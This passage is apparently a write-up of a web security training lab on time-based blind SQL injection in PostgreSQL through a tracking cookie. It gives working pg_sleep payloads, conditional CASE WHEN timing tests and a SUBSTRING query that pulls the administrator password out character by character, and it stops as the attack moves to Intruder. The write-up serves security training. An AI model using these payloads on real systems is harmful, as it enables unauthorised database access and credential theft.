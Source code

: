 14 Blind SQL injection with time delays and information retrieval
=================================================================

This lab contains a blind SQL injection vulnerability. The application uses a
tracking cookie for analytics, and performs a SQL query containing the value of
the submitted cookie.

The results of the SQL query are not returned, and the application does not
respond any differently based on whether the query returns any rows or causes an
error. However, since the query is executed synchronously, it is possible to
trigger conditional time delays to infer information.

The database contains a different table called users, with columns called
username and password. You need to exploit the blind SQL injection vulnerability
to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint: You can find some useful payloads on our SQL injection cheat sheet.

References:

-   https://portswigger.net/web-security/sql-injection/blind

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

It is possible to exploit the SQLI and make the server wait 10 seconds with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE'||pg_sleep(10)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jIPoq0qYcS0Y2AmF'||pg_sleep(10)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We will start with a comparison of 1=1 and 1=2 to see it sleeps only in the
first case:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jIPoq0qYcS0Y2AmF'+||+(SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
jIPoq0qYcS0Y2AmF'+||+(SELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Then we will add a check to find the first character of the password:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jIPoq0qYcS0Y2AmF'+||+(SELECT+CASE+WHEN+(SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

It seems it is working. We send it to Intruder:
